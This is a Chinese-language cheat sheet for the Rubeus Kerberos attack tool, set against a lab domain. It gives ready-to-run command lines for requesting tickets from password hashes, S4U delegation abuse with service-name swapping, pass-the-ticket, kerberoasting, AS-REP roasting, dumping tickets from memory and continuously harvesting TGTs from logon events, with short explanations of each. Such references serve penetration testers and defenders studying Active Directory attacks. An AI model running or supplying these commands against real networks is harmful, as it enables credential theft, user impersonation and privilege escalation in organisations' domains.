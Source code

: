 理论部分参考[这篇文章](https://www.anquanke.com/post/id/161781)

# base64转成票据（PS操作）

```
[IO.File]::WriteAllBytes("C:\Users\Administrator\desktop\nlamb.kirbi", [Convert]::FromBase64String("doIFZzC..."))
```


# asktgt

## 根据哈希请求票据

可以是rc4_hmac (/rc4) 或者 aes256_cts_hmac_sha1 (/aes256) hash

```
Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt
```


## renew

大多数域默认的 Kerberos 策略为 TGT 提供10小时的生命期，并具有7天的续订窗口.

如果你有一个在10小时的有效生命期内的 .kirbi 文件（或者对应的Rubeus base64 blob），并且还在7天的续订窗口期内，就可以使用 Kekeo 或者 Rubeus 来续订 TGT ，从而重启10个小时的窗口期，延长票据的有效生命期

```
Rubeus.exe renew /ticket:doIFmjCC...(snip)...
```

如果你想要票据在到达续订窗口之前能够自动续订，只需使用 /autorenew 参数

```
Rubeus.exe renew /ticket:doIFFj...(snip)... /autorenew
```


# s4u

滥用此 TTP 的方法，首先需要配置了限制委派的账户的有效 TGT/KRB-CRED 文件。使用此账户的 NTML/RC4 或 aes256_cts_hmac_sha1 哈希，利用 asktgt 功能即可获取这个文件。然后在 s4u 操作中，使用 /ticket 参数指定此票据文件（base64编码的blob 或者是磁盘上的一个票据文件），以及必需的 /impersonateuser:X 参数来指定要仿冒的账户， /msdsspn:SERVICE/SERVER 参数来指定账户的 msds-allowedToDelegateTo 字段中配置的 SPN 。而 /dc 和 /ptt 参数的功能与之前的操作相同


## /altservice

**/altservice** 参数利用了 Alberto Solino‘s 的伟大发现，即 服务名称在KRB-CRED文件中不被保护 ，只有服务器名称才被保护。这就允许我们在生成的KRB-CRED（.kirbi）文件中替换我们想要的任何服务名称

这里原本只委托了ldap服务，使用/altservice参数改成cifs服务，仿冒用户```dfm.a```的权限

```
Rubeus.exe s4u /ticket:C:TempTicketspatsy.kirbi /impersonateuser:dfm.a /msdsspn:ldap/primary.testlab.local /altservice:cifs /ptt
```

# ptt
```
Rubeus.exe ptt /ticket:doIFmj...(snip)...
```


# purge

清除所有登录会话

```
Rubeus.exe purge
```


# describe

想了解一个特定的 .kirbi Kerberos 票据的详细信息。describe 操作使用 /ticket:X 参数（TGT或服务票据）

```
Rubeus.exe describe /ticket:doIFmjCC...(snip)...
```

# createnetonly
createnetonly 操作使用 CreateProcessWithLogonW() API 创建一个新的隐藏（除非指定了 /show 参数）进程，其SECURITY_LOGON_TYPE 是9（新建票据），相当于runas /netonly操作，返回这个进程的 ID 和 LUID （登录会话ID）。然后，就可以使用 ptt /luid:X 参数将指定的 Kerberos 票据应用于此进程，前提是已提升了权限。这样就可以防止清除当前登录会话的现有TGT

```
Rubeus.exe createnetonly /program:"C:WindowsSystem32cmd.exe"
```

# Kerberoast

kerberoast 操作实现了 SharpRoast 项目的功能

/spn:X 参数可针对指定的SPN 进行操作，/user:X 参数可针对指定的用户进行操作，/ou:X 参数可针对指定的 OU 中的用户进行操作。如果要使用备用域凭据进行 kerberoasing，可以使用 /creduser:DOMAIN.FQDNUSER /credpassword:PASSWORD 参数来指定

```
>Rubeus.exe kerberoast /ou:OU=TestingOU,DC=testlab,DC=local
```


# asreproast

asreproast 操作和 ASREPRoast 项目的功能一致

如果一个用户没有启用 kerberos 预身份认证，则可以为此用户成功请求 AS-REP，而此结构的一个组件可以被离线破解，也就是 kerberoasting

/user:X 参数是必需的，而 /domain 和 /dc 参数是可选的。如果 /domain 和 /dc 参数没有被指定，则 Rubeus 将和其他操作一样，获取系统的默认值

```
Rubeus.exe asreproast /user:dfm.a
```

# dump

在已经管理员权限的情况下，dump 操作将从内存中提取当前的 TGT 和服务票据。可以使用 /service （使用 /service:krbtgt 来指定 TGT 票据）和 / 或 登录 ID （ luid:X 参数）来指定要提取的票据类型。操作将返回base64编码的blob 数据，并保存为KRB-CRED 文件（.kirbis）。此文件可被用于 ptt 操作，Mimikatz的 kerberos::ptt 功能，或者 Cobalt Strike 的 kerberos_ticket_use 操作

```
Rubeus.exe dump /service:krbtgt /luid:366300
```

# monitor
**注意此操作需要运行于管理员权限！**

monitor 操作将监视 4624 登录事件，并提取新登录 ID(LUID)的任意 TGT 票据。、interval 参数（以秒为单位，默认为60）来指定检查事件日志的频率。/filteruser:X 参数用于指定只返回特定用户的票据。此功能在没有设置约束委派的服务器上特别有用。当 /fiteruser 指定的用户（如果未指定，则任何用户）创建一个新的4624登录事件时，将输出所有提取到的 TGT KRB-CRED 数据

```
Rubeus.exe monitor /filteruser:dfm.a
```


# harvest

**注意此操作需要运行于管理员权限！**

harvest 操作比 monitor 操作更进一步。它将持续地监视登陆日志中的4624事件，每间隔 /interval:MIMUTES 指定的时间，就针对新的登录事件，进行新的 TGT KRB-CRED 文件的提取，并将提取的 TGT 进行缓存。在 /interval 指定的时间间隔内，任何将在下一个时间间隔到期的 TGT 都将被自动续订（直到他们的续订期限），并且当前缓存的可用 / 有效的 TGT KRB-CRED .kirbis 文件将以 base64 编码的 blob 数据格式输出

```
Rubeus.exe harvest /interval:30
```